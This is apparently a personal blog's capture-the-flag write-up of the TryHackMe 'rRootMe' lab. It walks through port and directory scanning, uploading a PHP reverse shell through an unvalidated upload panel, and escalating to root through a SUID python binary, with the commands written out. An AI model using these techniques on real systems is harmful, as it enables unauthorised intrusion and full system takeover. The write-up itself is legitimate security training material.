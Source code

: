 ```yaml
---
layout: default
title : m3dsec - rRootMe Write-up
---
```


_**Sep 09, 2020**_

## Overview

this is a quick writeup, explaining how we got inside [rRootMe](https://tryhackme.com/room/rrootme) machine from [tryhackme](https://tryhackme.com/).

## Target Informations

```
Domain name : rrootme.htb
ip address  : 10.10.128.17
Dificulty   : easy
Description : A ctf for beginners, can you root me?
```

<br>

## External Enumeration

**Port Scaning**
i'll be using **nmap** as regular:
```
 nmap -v -sC -sV -oN nmap/nmap_tcp_simple 10.10.128.17
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Directory Brute Forcing**
```
m3dsec@local:~/rrootme.htb$ ffuf -c -u http://10.10.128.17/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt 
uploads                 [Status: 301, Size: 314, Words: 20, Lines: 10]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10]
panel                   [Status: 301, Size: 312, Words: 20, Lines: 10]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
                        [Status: 200, Size: 616, Words: 115, Lines: 26]
                        [Status: 200, Size: 616, Words: 115, Lines: 26]
:: Progress: [62275/62275] :: Job [1/1] :: 238 req/sec :: Duration: [0:04:21] :: Errors: 3 ::
```
**panel** and **uploads** Directories seems interstings

<br>

## File Upload Vulnerability (Direct file upload)

visiting **uploads** folder, we get a Directory listing, that let us see what the folder contain, well its empty for now LOL

![Panel](../../assets/images/uploads_folder.png "Directory Listign in the Folder Uploads")

<br>

also the **Panel directory** has an Upload function

![Panel](../../assets/images/panel_upload_function.png "Upload Functionality in Panel Directory")

<br>

the server **does not** validate the type of files being uploaded (phtml at least, maybe other extentions too), therefor we can upload our malicious file to get a code execution on the server.

i'll be uploading a [reverse shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell), with a **.phtml** extention

sounds like the file has been uploaded

![Panel](../../assets/images/file_uploaded.png "Uploaded")

<br>

and we successfully got a reverse shell

![terminal](../../assets/images/reverse_shell.png "Uploaded")


<br>



## Internal Enumeration

**Getting a Full interactive shell**

lets 1st Upgrade to a full interactive shell with python pty module
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
CTRL+Z
stty -echo raw
fg
stty rows 41 columns 166
```

<br>


### Binary Files with SUID Permission

while searching for **suid** files, we got a good list, and python is a one of them,

```
www-data@rootme:/home$ find / -perm /4000 2>/dev/                                                                           
/usr/lib/dbus-1.0/dbus-daemon-launch-helpe
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
...
/usr/bin/python
...
/usr/bin/chfn
/usr/bin/gpasswd
```


```
www-data@rootme:/home$ ls -lat /usr/bin/python 
-rwsr-sr-x 1 root root 3665768 Aug  4 17:47 /usr/bin/python
```

<br>


### Privelege Escalation

we can easly escalate our priveleges, [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid) got a good set of priv escalation methods we can use.

```
www-data@rootme:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@rootme:/$ /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=33(www-data) groups=33(www-data)
# cat /root/root.txt
THM{REDACTED}
```
<br>
Best Regards

[m3dsec](https://twitter.com/m3dsec).

<br>
<br>

[back to main()](../../index.md)

<br>
<br>
